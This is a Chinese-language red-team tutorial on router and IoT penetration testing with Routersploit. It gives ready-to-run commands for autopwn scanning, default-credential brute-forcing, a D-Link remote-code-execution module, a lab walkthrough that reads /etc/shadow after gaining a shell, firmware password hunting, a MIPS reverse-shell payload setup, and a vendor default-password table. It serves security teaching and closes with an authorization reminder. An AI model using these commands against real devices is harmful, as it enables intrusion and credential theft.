

## 目录

- [[#一、路由器与 IoT 渗透概述|一、路由器与 IoT 渗透概述]]
- [[#二、Routersploit — 路由器渗透框架|二、Routersploit — 路由器渗透框架]]
 - [[#2.1 安装与启动|2.1 安装与启动]]
 - [[#2.2 核心模块系统|2.2 核心模块系统]]
 - [[#2.3 扫描器使用|2.3 扫描器使用]]
 - [[#2.4 凭证爆破模块|2.4 凭证爆破模块]]
 - [[#2.5 Exploit 利用模块|2.5 Exploit 利用模块]]
- [[#三、实战 — 路由器漏洞利用|三、实战 — 路由器漏洞利用]]
- [[#四、IoT 设备固件分析|四、IoT 设备固件分析]]
 - [[#4.1 Binwalk 固件解包|4.1 Binwalk 固件解包]]
 - [[#4.2 Firmware 模拟与动态分析|4.2 Firmware 模拟与动态分析]]
- [[#五、MIPS/ARM 架构 exploit 注意事项|五、MIPS/ARM 架构 exploit 注意事项]]
- [[#六、常见路由器默认凭证|六、常见路由器默认凭证]]
- [[#七、命令速查表|七、命令速查表]]



## 一、路由器与 IoT 渗透概述

路由器和 IoT 设备是红队行动中常被忽视但价值极高的目标。它们通常运行嵌入式 Linux (MIPS/ARM/PPC 架构)，固件更新滞后，管理员极少关注其安全状态。

> 相关模块: [[01-漏洞利用框架精通|Metasploit 框架]] | [[02-Exploit-DB与SearchSploit使用|Exploit-DB 搜索]] | [[../archstrike-base教学/04-漏洞评估与利用基础|漏洞利用基础]]

典型攻击面:

| 攻击面 | 说明 |
|---|---|
| Web 管理界面 | HTTP/HTTPS (80, 443, 8080)，常见的默认凭证、CSRF、命令注入 |
| Telnet/SSH | (23, 22)，常见的硬编码后门账户 |
| UPnP | UDP 1900，设备发现和信息泄露 |
| SNMP | UDP 161，可读取设备配置 |
| 固件 | 固件中包含硬编码密码、调试接口、未关闭的启动服务 |

## 二、Routersploit — 路由器渗透框架

Routersploit 是专门针对嵌入式设备的漏洞利用框架，架构类似于 Metasploit。

### 2.1 安装与启动

```bash
sudo pacman -S routersploit

# 启动交互式控制台
rsf

# 命令行模式运行单个模块
rsf -m scanners/autopwn -s "target=192.168.1.1" --run
```

### 2.2 核心模块系统

Routersploit 使用与 Metasploit 类似的模块分类:

| 模块类型 | 路径 | 功能 |
|---|---|---|
| scanners | `scanners/` | 自动漏洞扫描 |
| exploits | `exploits/routers/` | 针对特定厂商的漏洞利用 |
| creds | `creds/routers/` | 默认凭证破解 |
| payloads | `payloads/` | MIPS/ARM 架构的 shellcode |
| generic | `exploits/generic/` | 通用漏洞（如 Shellshock） |

查看所有可用模块:

```bash
rsf > show all

rsf > show scanners
rsf > show exploits
rsf > show creds
```

### 2.3 扫描器使用

**自动综合扫描 (autopwn):**

```bash
rsf > use scanners/autopwn
rsf (Autopwn Scanner) > show options
rsf (Autopwn Scanner) > set target 192.168.1.1
rsf (Autopwn Scanner) > set port 80
rsf (Autopwn Scanner) > run
```

autopwn 会自动:
1. 检测 HTTP 服务器指纹
2. 测试多个已知漏洞
3. 尝试默认凭证
4. 报告所有发现

**特定厂商扫描器:**

```bash
rsf > use scanners/tplink_scan
rsf (TP-Link Scanner) > set target 192.168.0.0/24
rsf (TP-Link Scanner) > run

rsf > use scanners/dlink_scan
rsf (D-Link Scanner) > set target 192.168.0.0/24
rsf (D-Link Scanner) > run
```

### 2.4 凭证爆破模块

大多数路由器使用默认或弱密码:

```bash
# 查看所有凭证测试模块
rsf > show creds

# D-Link 默认 FTP 凭证
rsf > use creds/routers/dlink/ftp_default
rsf (D-Link FTP Default Creds) > set target 192.168.0.1
rsf (D-Link FTP Default Creds) > run

# 通用 SSH 默认凭证
rsf > use creds/routers/ssh_default
rsf (SSH Default Creds) > set target 192.168.1.1
rsf (SSH Default Creds) > run

# HTTP Basic Auth 爆破
rsf > use creds/routers/http_basic_default
rsf (HTTP Basic Auth) > set target 192.168.1.1
rsf (HTTP Basic Auth) > run
```

### 2.5 Exploit 利用模块

routersploit 支持的厂商包括:

| 厂商 | 模块路径前缀 |
|---|---|
| TP-Link | `exploits/routers/tplink/` |
| D-Link | `exploits/routers/dlink/` |
| Linksys | `exploits/routers/linksys/` |
| Netgear | `exploits/routers/netgear/` |
| ASUS | `exploits/routers/asus/` |
| Belkin | `exploits/routers/belkin/` |
| Cisco | `exploits/routers/cisco/` |
| Huawei | `exploits/routers/huawei/` |
| ZTE | `exploits/routers/zte/` |
| 通用 | `exploits/generic/` |

搜索特定厂商的模块:

```bash
rsf > search tplink
rsf > search dlink
rsf > search "command injection"
```

漏洞利用示例:

```bash
# 查看某 exploit 详情
rsf > use exploits/routers/dlink/dir_645_815_rce
rsf (D-Link DIR-645/815 RCE) > show info
rsf (D-Link DIR-645/815 RCE) > show options
rsf (D-Link DIR-645/815 RCE) > set target 192.168.0.1
rsf (D-Link DIR-645/815 RCE) > set port 80

# 检测目标是否存在漏洞
rsf (D-Link DIR-645/815 RCE) > check

# 执行利用
rsf (D-Link DIR-645/815 RCE) > run
```

## 三、实战 — 路由器漏洞利用

目标: 实验网络中的 TP-Link/D-Link 路由器（192.168.1.1）

```bash
# Step 1: 基础侦察
nmap -sV -p 1-65535 192.168.1.1
nmap --script http-title,http-headers 192.168.1.1

# Step 2: 启动 rsf 并运行 autopwn
rsf
rsf > use scanners/autopwn
rsf (Autopwn Scanner) > set target 192.168.1.1
rsf (Autopwn Scanner) > run

# Step 3: 根据 autopwn 结果选择 exploit
# 例如发现 D-Link 漏洞
rsf > use exploits/routers/dlink/dir_300_320_600_rce
rsf > set target 192.168.1.1
rsf > check
rsf > run

# Step 4: 尝试默认凭证（如果 exploit 不成功）
rsf > use creds/routers/dlink/ssh_default
rsf > set target 192.168.1.1
rsf > run

rsf > use creds/routers/http_basic_default
rsf > set target 192.168.1.1
rsf > run

# Step 5: 获取 shell 后
# (通过 telnet/ssh 或 web shell 连接)
whoami
cat /etc/passwd
cat /etc/shadow
cat /etc/config/wireless # WiFi 配置
nvram show # 读取 NVRAM (Broadcom 设备)
```

## 四、IoT 设备固件分析

当没有真实设备时，可以通过固件模拟进行漏洞分析。

### 4.1 Binwalk 固件解包

```bash
sudo pacman -S binwalk

# 下载固件后解包
binwalk -Me firmware.bin

# 提取的内容通常在 _firmware.bin.extracted/ 目录下
ls _firmware.bin.extracted/
```

分析解包后的文件系统:

```bash
# 查找硬编码密码
grep -rn "password" _firmware.bin.extracted/squashfs-root/etc/ 2>/dev/null

# 查找后门账户
grep -rn "admin" _firmware.bin.extracted/squashfs-root/etc/shadow 2>/dev/null

# 查找启动脚本中的调试服务
cat _firmware.bin.extracted/squashfs-root/etc/init.d/rcS

# 查找 Web 源码
ls _firmware.bin.extracted/squashfs-root/www/

# 查找 CGI 程序
find _firmware.bin.extracted/ -name "*.cgi" -o -name "*cgi*"
```

常见固件发现:

| 位置 | 内容 |
|---|---|
| `/etc/shadow` | 硬编码的 root 密码哈希 |
| `/etc/passwd` | 用户账户列表 |
| `/etc/inetd.conf` | Telnet 等后台服务 |
| `/www/` 或 `/htdocs/` | Web 管理界面源代码 |
| `/etc/init.d/` | 启动脚本 |
| `/usr/sbin/` | CGI 程序（命令注入入口） |

### 4.2 Firmware 模拟与动态分析

使用 FAT (Firmware Analysis Toolkit) 或 Firmadyne 模拟固件运行:

```bash
# 搜索相关工具
pacman -Ss firmware

# 常用固件下载地址（Firefox 访问）:
# - https://www.tp-link.com/support/download/
# - https://www.dlink.com/en/support
# - https://www.linksys.com/support/
```

## 五、MIPS/ARM 架构 exploit 注意事项

嵌入式设备使用非 x86 架构（MIPS, ARM, PowerPC），开发和利用 exploit 时需要注意:

| 注意事项 | 说明 |
|---|---|
| Endianness | MIPS 分 Big-Endian 和 Little-Endian，shellcode 需适配 |
| Cache Coherency | MIPS 的 I-cache/D-cache 分离，shellcode 执行前需 flush |
| NOP sled | MIPS 的 NOP 是 `\x00\x00\x00\x00`，但可能被截断 |
| syscall | MIPS 的系统调用号与 x86 完全不同 |
| 栈不可执行 | 很多路由器启用了 NX (No eXecute)，需要 ROP 链 |
| 交叉编译 | 使用 `buildroot` 或厂商 SDK 编译 MIPS/ARM 工具 |

Routersploit 的 payload 模块内置了 MIPS/ARM shellcode:

```bash
rsf > show payloads
rsf > use payloads/mipsle/reverse_tcp
rsf > show options
rsf > set LHOST 192.168.56.1
rsf > set LPORT 4444
```

## 六、常见路由器默认凭证

| 厂商 | 默认 IP | 默认用户名 | 默认密码 |
|---|---|---|---|
| Linksys | 192.168.1.1 | admin | admin / (空) |
| D-Link | 192.168.0.1 | admin | admin / (空) |
| TP-Link | 192.168.0.1 | admin | admin |
| Netgear | 192.168.0.1 | admin | password |
| ASUS | 192.168.1.1 | admin | admin |
| Belkin | 192.168.2.1 | admin | (空) |
| Huawei | 192.168.1.1 | admin | admin |
| Tenda | 192.168.0.1 | admin | admin |
| ZTE | 192.168.1.1 | admin | admin |
| Cisco | 192.168.1.1 | admin / cisco | admin / cisco |
| Ubiquiti | 192.168.1.1 | ubnt | ubnt |
| MikroTik | 192.168.88.1 | admin | (空) |

## 七、命令速查表

| 命令 | 说明 |
|---|---|
| `rsf` | 启动交互式控制台 |
| `rsf -m [模块] -s "key=val" --run` | 命令行运行模块 |
| `show all` | 查看所有模块 |
| `show scanners` | 查看扫描器 |
| `show exploits` | 查看 exploit |
| `show creds` | 查看凭证模块 |
| `show payloads` | 查看 payload |
| `search [关键词]` | 搜索模块 |
| `use [模块路径]` | 使用模块 |
| `show info` | 查看模块信息 |
| `show options` | 查看模块选项 |
| `set [选项名] [值]` | 设置选项 |
| `setg [选项名] [值]` | 全局设置 |
| `check` | 漏洞检测 |
| `run` | 运行模块 |
| `back` | 返回上级 |
| `exit` | 退出 |

Routersploit 和其他路由器渗透工具的使用需要注意法律合规性。对路由器的渗透测试应在获得明确授权后进行。许多 IoT 设备的 exploit 可能导致设备重启或配置丢失，操作前应创建备份。

查看 Routersploit GitHub Wiki 获取更多模块文档:
在 Firefox 中打开 https://github.com/threat9/routersploit/wiki

[[../总目录与快速查询|← 返回总目录]]
